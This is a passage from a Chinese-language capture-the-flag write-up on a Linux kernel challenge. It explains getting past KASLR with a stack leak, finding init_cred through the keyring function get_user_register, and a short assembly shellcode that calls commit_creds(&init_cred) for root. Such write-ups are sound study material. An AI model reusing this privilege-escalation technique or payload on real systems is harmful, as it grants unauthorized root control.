 KASLR 和 ASLR 类似，应对方法也差不多：找一处泄漏然后算相对偏移。

而本题直接提供了写 shellcode 的能力，泄漏自然不在话下，可以考虑从栈上取残留数据：

2. 定位 `init_cred`

这也是我在比赛中使用的办法，其中难点在于获取 `init_cred` 的地址，可以在源码中搜索对其对引用，找到 keyring 相关的 [`get_user_register`](https://elixir.bootlin.com/linux/v6.1.61/source/security/keys/process_keys.c#L38) 函数，其中：

```c
static struct key *get_user_register(struct user_namespace *user_ns)
{
	struct key *reg_keyring = READ_ONCE(user_ns->user_keyring_register);

	if (reg_keyring)
		return reg_keyring;

	down_write(&user_ns->keyring_sem);

	/* Make sure there's a register keyring.  It gets owned by the
	 * user_namespace's owner.
	 */
	reg_keyring = user_ns->user_keyring_register;
	if (!reg_keyring) {
		reg_keyring = keyring_alloc(".user_reg",
					    user_ns->owner, INVALID_GID,
					    &init_cred,
					    KEY_POS_WRITE | KEY_POS_SEARCH |
					    KEY_USR_VIEW | KEY_USR_READ,
					    0,
					    NULL, NULL);
		if (!IS_ERR(reg_keyring))
			smp_store_release(&user_ns->user_keyring_register,
					  reg_keyring);
	}

	up_write(&user_ns->keyring_sem);

	/* We don't return a ref since the keyring is pinned by the user_ns */
	return reg_keyring;
}
```

`keyring_alloc` 的参数很有特点，`/proc/kallsyms` 中找不到 `get_user_register`，却能找到其上层引用 [`look_up_user_keyrings`](https://elixir.bootlin.com/linux/v6.1.61/source/security/keys/process_keys.c#L74) 的函数地址，去 ida 看其反汇编代码找到 `&init_cred`：

![[static/figure-0x03.png]]

3. `commit_creds(&init_cred)` 完成利用。

```c
	[BITS 64]

	mov  r14, qword [rsp + 0x20]
	sub  r14, 0x24c4b5
	sub  r14, 0xffffffff811bb400
	mov  rdi, r14
	add  rdi, 0xFFFFFFFF83676840
	mov  rdx, r14
	add  rdx, 0xffffffff811bb400
	call rdx
	ret
```
